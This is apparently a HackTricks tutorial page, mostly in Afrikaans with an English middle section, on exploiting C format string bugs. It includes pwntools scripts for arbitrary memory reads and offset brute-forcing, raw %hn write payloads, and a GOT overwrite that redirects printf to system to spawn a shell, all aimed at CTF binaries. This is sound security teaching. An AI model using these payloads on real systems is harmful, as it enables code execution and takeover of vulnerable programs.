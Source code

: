 # Format Strings

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

In C **`printf`** is 'n funksie wat gebruik kan word om **te druk** 'n string. Die **eerste parameter** wat hierdie funksie verwag is die **rou teks met die formateerders**. Die **volgende parameters** wat verwag word is die **waardes** om die **formateerders** van die rou teks te **vervang**.

Ander kwesbare funksies is **`sprintf()`** en **`fprintf()`**.

Die kwesbaarheid verskyn wanneer 'n **aanvaller teks as die eerste argument** aan hierdie funksie gebruik word. Die aanvaller sal in staat wees om 'n **spesiale invoer te vervaardig wat** die **printf formaat** string vermoëns misbruik om te lees en **skryf enige data in enige adres (leesbaar/skryfbaar)**. Op hierdie manier in staat om **arbitraire kode uit te voer**.

#### Formateerders:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Voorbeelde:**

* Kwetsbare voorbeeld:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Gebruik:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Met ontbrekende argumente:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf kwesbaar:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Toegang tot Pointers**

Die formaat **`%<n>$x`**, waar `n` 'n getal is, laat toe om aan printf aan te dui om die n parameter (van die stapel) te kies. So as jy die 4de param van die stapel met printf wil lees, kan jy doen:
```c
printf("%x %x %x %x")
```
en jy sou van die eerste tot die vierde parameter lees.

Of jy kan doen:
```c
printf("%4$x")
```
en lees direk die vierde.

Let op dat die aanvaller die `pr`**`intf`-parameter beheer, wat basies beteken dat** sy invoer in die stapel gaan wees wanneer `printf` aangeroep word, wat beteken dat hy spesifieke geheue adresse in die stapel kan skryf.

{% hint style="danger" %}
'n Aanvaller wat hierdie invoer beheer, sal in staat wees om **arbitraire adresse in die stapel by te voeg en `printf` te laat toegang tot hulle**. In die volgende afdeling sal verduidelik word hoe om hierdie gedrag te gebruik.
{% endhint %}

## **Arbitraire Lees**

Dit is moontlik om die formatter **`%n$s`** te gebruik om **`printf`** die **adres** wat in die **n posisie** geleë is, te laat kry, dit te volg en **dit te druk asof dit 'n string is** (druk totdat 'n 0x00 gevind word). So as die basisadres van die binêre **`0x8048000`** is, en ons weet dat die gebruiker se invoer in die 4de posisie in die stapel begin, is dit moontlik om die begin van die binêre te druk met:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Let daarop dat jy nie die adres 0x8048000 aan die begin van die invoer kan plaas nie, omdat die string in 0x00 aan die einde van daardie adres sal wees.
{% endhint %}

### Vind offset

Om die offset na jou invoer te vind, kan jy 4 of 8 bytes (`0x41414141`) stuur, gevolg deur **`%1$x`** en **verhoog** die waarde totdat jy die `A's` ontvang.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Hoe nuttig

Arbitraire lees kan nuttig wees om:

* **Dump** die **binarie** uit geheue
* **Toegang tot spesifieke dele van geheue waar sensitiewe** **inligting** gestoor word (soos kanaries, versleuteling sleutels of paswoorde soos in hierdie [**CTF-uitdaging**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitraire Skrywe**

Die formatter **`$<num>%n`** **skryf** die **aantal geskryfde bytes** in die **aangegeven adres** in die \<num> parameter in die stapel. As 'n aanvaller soveel karakters kan skryf as wat hy wil met printf, sal hy in staat wees om **`$<num>%n`** 'n arbitraire getal in 'n arbitraire adres te laat skryf.

Gelukkig, om die getal 9999 te skryf, is dit nie nodig om 9999 "A"s by die invoer te voeg nie; om dit te doen, is dit moontlik om die formatter **`%.<num-write>%<num>$n`** te gebruik om die getal **`<num-write>`** in die **adres aangedui deur die `num` posisie** te skryf.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

* **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-sjabloon

Jy kan 'n **sjabloon** vind om 'n exploit voor te berei vir hierdie soort kwesbaarheid in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Of hierdie basiese voorbeeld van [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Formaat Strings na BOF

Dit is moontlik om die skryf aksies van 'n formaat string kwesbaarheid te misbruik om **in adresse van die stapel te skryf** en 'n **buffer overflow** tipe kwesbaarheid te ontgin.

## Ander Voorbeelde & Verwysings

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, geen relro, geen canary, nx, geen pie, basiese gebruik van formaat strings om die vlag van die stapel te lek (geen behoefte om die uitvoeringsvloei te verander)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om die adres `fflush` met die win funksie (ret2win) te oorskryf
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om 'n adres binne main in `.fini_array` te skryf (sodat die vloei een keer meer terugloop) en die adres na `system` in die GOT tabel te skryf wat na `strlen` wys. Wanneer die vloei terug na main gaan, word `strlen` uitgevoer met gebruikersinvoer en wat na `system` wys, sal dit die oorgedraagde opdragte uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

